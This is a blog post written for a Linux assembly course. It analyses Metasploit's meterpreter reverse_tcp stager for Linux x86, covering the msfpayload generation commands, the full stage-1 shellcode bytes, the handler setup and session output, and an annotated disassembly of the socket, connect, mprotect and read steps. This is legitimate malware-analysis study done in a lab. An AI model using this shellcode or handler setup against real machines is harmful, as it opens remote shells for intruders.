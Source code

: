 ```yaml
---
title:  "[SLAE 5] Metasploit meterpreter/reverse_tcp Shellcode"
categories: [SLAE]
---
```


![Logo](/assets/images/tux-root.png)

This post is part of the 5th assignment of the [SLAE course](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) and will analyse another Metasploit shellcode: **_meterpreter/reverse_tcp_**. First we'll check the description of this shellcode: 
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp S
 
       Name: Linux Meterpreter, Reverse TCP Stager
     Module: payload/linux/x86/meterpreter/reverse_tcp
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 178
       Rank: Normal
 
Provided by:
  PKS
  egypt <egypt@metasploit.com>
  skape <mmiller@hick.org>
 
Basic options:
Name          Current Setting  Required  Description
----          ---------------  --------  -----------
DebugOptions  0                no        Debugging options for POSIX meterpreter
LHOST                          yes       The listen address
LPORT         4444             yes       The listen port
PrependFork                    no        Add a fork() / exit_group() (for parent) code
 
Description:
  Connect back to the attacker, Staged meterpreter server
```

To test it, we'll insert the 1st stage payload into the skeleton tester file: 
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 C
```

```c
/*
 * linux/x86/meterpreter/reverse_tcp - 71 bytes (stage 1)
 * http://www.metasploit.com
 * VERBOSE=false, LHOST=192.168.56.101, LPORT=4444, 
 * ReverseConnectRetries=5, ReverseAllowProxy=false, 
 * EnableStageEncoding=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, AutoLoadStdapi=true, 
 * InitialAutoRunScript=, AutoRunScript=, AutoSystemInfo=true, 
 * EnableUnicodeEncoding=true, PrependFork=false, 
 * DebugOptions=0
 */
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80"
"\x97\x5b\x68\xc0\xa8\x38\x65\x68\x02\x00\x11\x5c\x89\xe1\x6a"
"\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\xb2\x07\xb9\x00\x10"
"\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x5b"
"\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\xff\xe1";
 
/*
 * linux/x86/meterpreter/reverse_tcp - 1126400 bytes (stage 2)
 * http://www.metasploit.com
 */
unsigned char buf[] = 
"\x7f\x45\x4c\x46\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00"
"\x00\x02\x00\x03\x00\x01\x00\x00\x00\x05\xfe\x04\x20\x34\x00"
[..]
```

We don't care about the 2nd stage because it will be transmitted to the client after connection. Then start a multi handler which will receive the connection and send the 2nd stage payload: 
```bash
msf exploit(handler) > show options 
 
Module options (exploit/multi/handler):
 
   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
 
 
Payload options (linux/x86/meterpreter/reverse_tcp):
 
   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LHOST         192.168.56.101   yes       The listen address
   LPORT         4444             yes       The listen port
 
msf exploit(handler) > exploit -j -z
```

We send the compiled stage 1: 
```bash
$ ./shellcode
Shellcode Length:  24 bytes
(Shellcode contains null bytes)
```

And we get in the handler: 
```bash
msf exploit(handler) > 
[*] Transmitting intermediate stager for over-sized stage...(100 bytes)
[*] Sending stage (1126400 bytes) to 192.168.56.1
[*] Meterpreter session 1 opened (192.168.56.101:4444 -> 192.168.56.1:33626) at 2013-07-21 21:21:08 +0100
 
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...
 
meterpreter > getuid 
Server username: uid=1000, gid=1000, euid=1000, egid=1000, suid=1000, sgid=1000
```

So the shellcode is working as expected. We proceed to analyse the payload with the shellcode tester from [libemu](https://www.aldeid.com/wiki/Libemu):
```bash
# msfpayload linux/x86/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 R > shellcode.bin
# ls -al shellcode.bin 
-rwxrwx--- 1 root vboxsf 71 Jul 21 21:25 shellcode.bin
(71 bytes. It's stage 1)
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
```

And there's the first part of the shellcode that it was possible to be decoded by the emulator: 
```c
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 1698212032 (host=192.168.56.101);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
```

Here we see clearly the initial syscalls and their parameters. We can also view the same information graphically: 
```bash
$ dot shellcode.dot -T png -o shellcode.png
```

<a href="/assets/images/libemu2.png">
<img alt="Graph" src="/assets/images/libemu2-small.png" class="figure-body">
</a>

Finally we'll manually analyse the shellcode to understand the complete functionality. To disassemble it: 
```bash
$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xc0\xa8\x38\x65\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\xff\xe1" | ndisasm -b 32 -
```

The first operation is, as we've seen previously, a socket call: 
```c
; man 2 socket
; int socket(int domain, int type, int protocol);
; Parameters can be viewed with strace commnad
; socket(PF_INET, SOCK_STREAM, IPPROTO_IP)
00000000  31DB              xor ebx,ebx         ; Zero out ebx
00000002  F7E3              mul ebx             ; Zero out eax
00000004  53                push ebx            ; Protocol - IPPROTO_IP (0) 
00000005  43                inc ebx             ; int call - SYS_SOCKET (1)
00000006  53                push ebx            ; Type - SOCK_STREAM (1)
00000007  6A02              push byte +0x2      ; Domain - AF_INET (2)
00000009  B066              mov al,0x66         ; sys_socketcall
0000000B  89E1              mov ecx,esp         ; Parameters
0000000D  CD80              int 0x80            ; Fire up the interrupt
```

Next is the connect call, which was also executed by the emulator: 
```c
; connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("192.168.56.101")}, 102)
0000000F  97                xchg eax,edi        ; fd is returned, then stored into edi
00000010  5B                pop ebx             ; ebx is 2
00000011  68C0A83865        push dword 0x6538a8c0
00000016  680200115C        push dword 0x5c110002
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66     ; sys_socketcall
0000001F  58                pop eax
00000020  50                push eax
00000021  51                push ecx
00000022  57                push edi            ; push first param - the fd
00000023  89E1              mov ecx,esp
00000025  43                inc ebx             ; int call - SYS_CONNECT (3)
00000026  CD80              int 0x80
```

Next operations were not executed by the emulator. Following is an _`mprotect`_ call, which sets protection on a region of memory. The function has the following syntax: 
```c
int mprotect(const void *addr, size_t len, int prot);
```

The parameters of the call can be easily viewed with the _`strace`_ utility:
```c
mprotect(0xbff7e000, 4096, PROT_READ|PROT_WRITE|PROT_EXEC) = 0
```

The defines have the following values:
```
PROT_READ 0x1 
PROT_WRITE 0x2 
PROT_EXEC 0x4 
```

And if we verify with the assembly code: 
```c
00000028  B207              mov dl,0x7          ; PROT_READ|PROT_WRITE|PROT_EXEC
0000002A  B900100000        mov ecx,0x1000      ; 4096
0000002F  89E3              mov ebx,esp
00000031  C1EB0C            shr ebx,0xc
00000034  C1E30C            shl ebx,0xc
00000037  B07D              mov al,0x7d         ; sys_mprotect
00000039  CD80              int 0x80
```

The final part of the shellcode is, as expected, the read call, which will get the 2nd stage payload from the server, and then execute it: 
```c
; man 2 read
; read - read from a file descriptor
; ssize_t read(int fd, void *buf, size_t count);
0000003B  5B                pop ebx             ; fd to read from; pushed at 'push edi' line
0000003C  89E1              mov ecx,esp         ; buffer
0000003E  99                cdq
0000003F  B60C              mov dh,0xc          ; count - a lot of data to be read...
00000041  B003              mov al,0x3          ; sys_read
00000043  CD80              int 0x80
00000045  FFE1              jmp ecx             ; the buffer thathas been read. execute it
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
